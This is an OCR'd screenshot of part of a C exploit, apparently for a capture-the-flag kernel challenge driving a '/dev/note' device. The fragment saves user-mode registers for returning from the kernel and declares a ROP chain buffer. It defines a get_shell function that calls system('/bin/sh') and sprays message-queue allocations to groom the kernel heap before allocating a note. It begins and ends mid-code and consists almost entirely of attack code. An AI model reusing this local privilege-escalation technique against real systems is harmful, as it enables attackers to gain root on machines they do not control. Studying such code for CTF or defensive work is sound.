 ```c
        printf("msgsnd error\n");
        exit(1);
    }
}

unsigned long user_cs, user_ss, user_eflags, user_sp;
void save_stats() {
    asm(
            "movq %%cs, %0\n"
            "movq %%ss, %1\n"
            "movq %%rsp, %3\n"
            "pushfq\n"
            "popq %2\n"
            : "=r"(user_cs), "=r"(user_ss), "=r"(user_eflags), "=r"(user_sp)
            :
            : "memory"
    );
}

void *ropchain[0x10000];

void init()
{
    int size = 0x80;

    args.length = size;
    args.addr = malloc(size);
    memset(args.addr, 0x87, 0x8);

    read_args.length = size;
    read_args.addr = malloc(size);

    msg.type = 1;
    memset(msg.text, 'a', 0x10);
}

int nani = 0;

void get_shell()
{
    nani = 1;
    system("/bin/sh");
}

int main()
{
    int msgflg = IPC_CREAT | 0666;
    key_t key = 2234;

    init();

    fd = open("/dev/note", O_RDWR);

    if ((msqid = msgget(key, msgflg)) < 0) {
        exit(1);
    }

    // allocate to a new page
    for (int i = 0; i < 41; ++i) {
        msg_alloc(0x80);
    }

    note_alloc();
```